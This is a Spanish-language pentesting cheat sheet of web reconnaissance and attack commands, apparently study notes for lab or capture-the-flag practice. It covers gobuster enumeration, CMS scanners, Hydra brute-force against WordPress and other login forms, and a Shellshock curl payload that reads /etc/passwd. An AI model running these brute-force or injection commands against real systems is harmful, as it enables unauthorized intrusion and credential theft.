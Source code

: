 # HTTP
Protocolo de comunicación que permite las transferencias de información en la World Wide Web sirve como base para muchos otros servicios

## Gobuster
* Directorios
```
gobuster -u URL -w wordlist
```
* Scripts 
```
gobuster -u URL -w wordlist -x .js, .py, .phpX , .aspx , .sh
```
* Información sensible
```
gobuster -u URL -w wordlist -x .txt, .conf , .config , .bak
```

## Recon for CMS
### Averiguar tecnología
```
whatweb http://IP
nikto http://IP
```

### Wordpress
* Enumera wordpress
```
wpscan --url -e vp,u,cb,dbe
```
* Wordpress login bruteforce
```
wpscan --url URL --wordlist DICTIONARYPATH --username USERNAME
```
* Hydra bruteforce
```
hydra -L USERLIST -P PASSLIST IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" 
```
### joomla
* Joomscan
```
perl joomscan.pl -u URL
```
### Drupal
[Tool](https://github.com/droope/droopescan)
```
droopescan scan drupal http://IP -t 32
```

## Ataques por fuerza bruta
* Hydra POST 
```
hydra -L USERLIST -P PASSLIST IP http-post-form "/endpoint:USERPARAM=^USER^&PASSPARAM=^PASS^EXTRAPARAMS:FAILMESSAGE" 
```
### Hydra BruteForce HTTP GET
```
hydra -L UserList -P PassList IP http-get Directorio
```
## Vulnerabilidades comunes sin metasploit
### Shellshock cgi-bin
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://IP/cgi-bin/script.sh
```
